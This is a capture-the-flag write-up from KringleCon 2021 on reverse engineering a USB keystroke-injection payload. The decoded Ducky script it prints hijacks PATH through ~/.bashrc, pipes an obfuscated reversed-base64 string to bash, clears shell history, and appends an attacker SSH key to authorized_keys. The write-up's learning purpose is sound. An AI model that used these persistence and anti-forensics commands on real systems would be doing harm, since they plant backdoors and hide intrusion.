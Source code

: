 ```yaml
---
title: Strange USB Device
layout: base.njk
description: >
  A short description of page
tags:
  - post
  - KringleCon2021Posts
---
```


# Introduction
This is a challenge with potential to learn alot, or just cruise through for potential CTF points. The description of the challenge is as follows:
Assist the elves in reverse engineering the strange USB device. Visit Santa's Talks Floor and hit up Jewel Loggins for advice.
The flag we are looking for is the trolls username.

# Tools
We are handed a script called mallard.py and a USB device at /mnt/USBDEVICE/. First off, the mallard script. The help page shows the following:
```
elf@cb3fea375384:~$ python mallard.py -h                
usage: mallard.py [-h] [--file FILE] [--no_analyze] [--output_file OUTPUT_FILE]
                  [--analysis_file ANALYSIS_FILE] [--debug]

optional arguments:
  -h, --help            show this help message and exit
  --file FILE, -f FILE  The file to decode, default: inject.bin
```
And the contents of /mnt/USBDEVICE/ is a file called inject.bin.

Well, it seems straight forward. We have a script that takes files (default inject.bin), and a file called inject.bin.
First lets copy the file so we have a backup incase something wrong happens.

# Enumeration
```
elf@cb3fea375384:~$ cp /mnt/USBDEVICE/inject.bin /home/elf/
elf@cb3fea375384:~$ python mallard.py --file inject.bin 
...

STRING echo "export PATH=~/.config/sudo:$PATH" >> ~/.bashrc
ENTER
DELAY 200
STRING echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
ENTER
DELAY 600
STRING history -c && rm .bash_history && exit
ENTER
DELAY 600
GUI q
```
It seems like one of the last things the troll tried to do was so bad he wanted to hide it. He used bash to base64 decrypt a string and run the commands in that string. Lets see what it does. All we need to do is to copy the command and remove bash at the end.
```
echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```
Aha! ickymcgoop wanted to be authurized to ssh himself into the device. Well, that was that.
